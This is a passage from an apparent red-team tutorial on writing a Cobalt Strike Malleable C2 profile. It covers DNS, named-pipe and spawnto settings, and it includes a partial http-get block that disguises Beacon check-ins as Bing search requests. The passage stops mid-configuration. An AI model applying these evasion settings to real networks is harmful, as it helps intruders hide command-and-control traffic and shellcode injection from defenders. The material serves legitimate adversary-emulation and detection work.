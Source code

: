 *maxdns* configures the maximum hostname length used by Cobalt Strike when uploading data. The default value is 255, which may flag on some security appliances. Keep in mind that the lower this setting is configured, the more DNS traffic is likely to be generated. Either way the target will see a spike in DNS traffic overall, but it's important to keep in mind when changing this setting to a low value.

Two useful global options we didn't set are *pipename* and *spawnto*. *pipename* sets the pipe name used in Beacon's [SMB C2 traffic](https://www.cobaltstrike.com/help-smb-beacon). We will want to configure this setting if there's reason to believe the target will be forensically reviewing named pipes if we're detected. To determine what pipe names may blend in, we can use the sysinternals tool `handle.exe`:

```plaintext
sysinternals: handle.exe -a | findstr /i namedpipe
```

*spawnto* is actually two settings, *spawnto_x86* and *spawnto_x64*, that change the program Cobalt Strike opens and injects shellcode into. In other words: any time Cobalt Strike starts a new Beacon process, the process will be the one designated by *spawnto*. The default program is `rundll32.exe`.

It's helpful to configure the *pipename* and *spawnto* settings to complement each other by tying the names to similar process or service names. Here is a list of [well-known MSRPC named pipes](http://www.hsc.fr/ressources/articles/win_net_srv/well_known_named_pipes.html) to get started. If your target is sophisticated and likely to be actively hunting you in the network, it may be prudent to pull a list of named pipes from a host and modify your Malleable C2 profile to use named pipes that are actively in use on the network.

Big thanks to Lee Christensen ([@tifkin_](https://twitter.com/tifkin_)) for the above command and his help with named pipes!

## HTTP-GET

In the *http-get* section of our profile, we need to configure how Beacon checks in with Cobalt Strike and how Beacon receives its taskings.

I recommend reading the *Profile Language* and *Data Transform Language* sections of the [Cobalt Strike documentation](https://www.cobaltstrike.com/help-malleable-c2) before going through the rest of your profile, as this post doesn't cover every available option.

Working off the real request and response, we can fill in the URI, headers, parameters, and output formatting: 

```plaintext
http-get {

    set uri "/search/";

    client {

        header "Host" "www.bing.com";
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Cookie" "DUP=Q=GpO1nJpMnam4UllEfmeMdg2&T=283767088&A=1&IG"; 
        
        metadata {
            base64url;
            parameter "q";
        }

        parameter "go" "Search";
        parameter "qs" "bs";
        parameter "form" "QBRE";


    }

    server {

```